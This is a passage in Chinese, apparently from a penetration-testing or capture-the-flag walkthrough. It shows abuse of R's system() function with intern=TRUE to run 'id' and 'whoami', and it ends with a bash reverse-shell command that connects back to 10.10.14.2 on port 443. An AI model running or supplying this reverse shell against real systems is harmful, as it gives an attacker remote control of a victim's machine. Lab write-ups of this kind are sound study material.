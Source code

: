 R 有一个内置 system 命令来运行操作系统命令。只是运行 system("id") 不会返回任何内容，但是根据文档进行一些摆弄，添加 intern = TRUE 参数会返回输出：

[![](assets/1701678355-d4da36d1c643059e7ca9ccc84627d9ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130210718-63f0948e-8f81-1.png)

执行 whoami 命令试试，成功执行命令。

[![](assets/1701678355-cc6180c03f7e2eedbe352366636939ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130210725-67d8b0ae-8f81-1.png)

## 反弹 shell

接着进行反弹 shell  
system("bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0<&1'",intern=TRUE)
